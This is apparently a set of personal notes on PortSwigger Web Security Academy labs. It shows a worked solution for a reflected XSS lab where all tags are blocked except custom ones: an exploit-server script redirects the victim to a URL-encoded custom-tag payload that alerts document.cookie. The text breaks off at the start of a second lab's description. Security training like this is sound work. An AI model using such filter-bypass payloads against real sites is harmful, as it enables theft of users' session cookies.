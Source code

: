 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220518205138.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220518205212.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220518205239.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220518205307.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220518205702.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220518212459.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220518212523.png)

### Reflected XSS into HTML context with all tags blocked except custom ones
```bash

# This lab blocks all HTML tags except custom ones.

# To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that injects a custom tag and automatically alerts `document.cookie`.

Go to: "Exploit server"
Craft a payload:

= = %3d
( = %28
) = %29
< = %3c
> = %3e
+ = %20

Body:

<script>
location='https://acc01f9d1fc9d753c06c030300430099.web-security-academy.net/?search=%3Cxss%20id%3Dx%20%onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>

// or // decoded

<script>
location='https://acc01f9d1fc9d753c06c030300430099.web-security-academy.net/?search=<xss+id=x+onfocus=alert(document.cookie)+tabindex=1>#x';
</script>

```

### Reflected XSS with event handlers and href attributes blocked
```bash

# This lab contains a reflected XSS vulnerability with some whitelisted tags, but all events and anchor href attributes are blocked..

# To solve the lab, perform a cross-site scripting attack that injects a vector that, when clicked, calls the alert function.

# Note that you need to label your vector with the word "Click" in order to induce the simulated lab user to click your vector. For example: 

```